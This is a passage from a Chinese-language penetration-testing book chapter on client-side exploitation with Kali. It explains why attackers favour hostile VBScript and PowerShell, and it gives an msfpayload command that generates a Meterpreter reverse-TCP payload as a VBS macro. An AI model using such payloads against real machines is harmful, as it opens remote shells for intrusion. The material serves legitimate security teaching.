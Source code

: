 # 第十一章：客户端利用

对于攻击者或有效的渗透测试人员来说，最大的挑战是绕过目标的安全控制以实现妥协。当针对位于网络上的系统时，这可能很困难，因为攻击者通常需要绕过防火墙、代理、入侵检测系统和防御深度架构的其他元素。

成功的绕过策略是直接针对客户端应用程序。用户启动与客户端应用程序的交互，使攻击者能够利用用户和应用程序之间已经存在的信任。社会工程方法的使用将增强客户端攻击的成功率。

客户端攻击针对的是通常缺乏安全控制（尤其是防火墙和入侵检测系统）的系统。如果这些攻击成功并建立了持久的通信，客户端设备可以在重新连接到目标网络时用于发动攻击。

在本章结束时，您将学会如何使用以下方法攻击客户端应用程序：

+   敌对脚本攻击（VBScript 和 PowerShell）

+   跨站脚本框架

+   浏览器利用框架

# 使用敌对脚本攻击系统

客户端脚本，如 JavaScript、VBScript 和 PowerShell，是为了将应用程序逻辑和操作从服务器移动到客户端计算机而开发的。从攻击者或测试者的角度来看，使用这些脚本有几个优点，如下所示：

+   它们已经是目标自然操作环境的一部分；攻击者不需要将大型编译器或其他辅助文件（如加密应用程序）传输到目标系统。

+   脚本语言旨在促进计算机操作，如配置管理和系统管理。例如，它们可以用于发现和更改系统配置、访问注册表、执行程序、访问网络服务和数据库，以及通过 HTTP 或电子邮件传输二进制文件。这些标准的脚本操作可以很容易地被测试人员采用使用。

+   由于它们是操作系统环境的一部分，它们通常不会触发防病毒警报。

+   使用脚本很容易，因为编写脚本只需要一个简单的文本编辑器。使用脚本发动攻击没有障碍。

历史上，JavaScript 是发动攻击的脚本语言选择，因为它在大多数目标系统上广泛可用。由于 JavaScript 攻击已经被充分描述，我们将重点介绍 Kali 如何利用更新的脚本语言（VBScript 和 PowerShell）进行攻击。

## 使用 VBScript 进行攻击

**Visual Basic Scripting Edition**（**VBScript**）是由微软开发的**Active Scripting 语言**。它旨在成为一个轻量级的、Windows 本地的语言，可以执行小型程序。自 Windows 98 以来，VBScript 已经默认安装在每个桌面版的 Microsoft Windows 上，使其成为客户端攻击的一个绝佳目标。

要使用 VBScript 发动攻击，我们将从命令行调用 Metasploit 的`msfpayload`。

```
root@kali:~# msfpayload windows/meterpreter/reverse_tcp
  LHOST=[Your local Host] LPORT= [Your Local Port] V 

```

注意`V`表示输出将是一个 VBS 宏脚本。输出将显示为一个具有两个特定部分的文本文件，如下面的屏幕截图所示：

![使用 VBScript 进行攻击](img/3121OS_11_01.jpg)
